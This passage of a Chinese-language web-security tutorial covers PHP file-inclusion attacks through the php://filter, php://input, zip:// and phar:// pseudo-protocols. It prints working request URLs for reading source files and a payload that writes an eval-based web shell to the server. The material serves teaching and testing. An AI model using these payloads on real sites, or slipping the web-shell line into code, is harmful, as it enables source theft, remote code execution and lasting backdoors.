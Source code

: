- 只是读取，所以只需要开启allow_url_fopen，对allow_url_include不做要求

**利用**

```php
index.php?file=php://filter/read=convert.base64-encode/resource=xxx.php
```

可以指定末尾的文件，读取经过base64加密后的文件源码，可以用来读取敏感文件 。

#### **5.2、php://input**

可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行

**利用条件**

- 需要开启allow_url_include=on，对allow_url_fopen不做要求

**利用**

url:[ip]/index.php?page=php://input

数据（包含的代码）用post传过去

![image-20230719104020795](C:\Users\spdadi\AppData\Roaming\Typora\typora-user-images\image-20230719104020795.png)

//使用post传入写入木马的参数代码

**因此实际上能包含执行的点都可以传入下面的payload写入木马**

```php
<?php fputs(fopen('hack.php','w'),'<?php @eval($_POST[v])?>');?>
```

也可以post命令执行

#### 5.3、zip://伪协议

zip://可以访问压缩文件中的文件(访问类似于包含)

**利用**

```
?file=zip://[压缩文件路径]#[压缩文件内的子文件名]
```

本地创建test.php，压缩成test.zip压缩包

```
127.0.0.1/index.php?page=zip://test.zip%23test.php
```

**注意**

- 使用zip协议，需要将#编码为%23，所以需要PHP 的版本> =5.3.0，要是因为版本的问题无法将#编码成%23，可以手动把#改成%23。
- `test.zip`必须得是以zip压缩文件格式压缩，其它像rar、7z这样的压缩文件格式就不行了。不过`test.zip`的后缀可以不是zip，可以是像`test.jpg`，甚至`test.111`这样的后缀都行。

#### 5.4、phar://伪协议

与zip://协议类似，但用法不同，zip://伪协议中是用#把压缩文件路径和压缩文件的子文件名隔开，而phar://伪协议中是用/把压缩文件路径和压缩文件的子文件名隔开，即

```
?file=phar://[压缩文件路径]/[压缩文件内的子文件名]
```
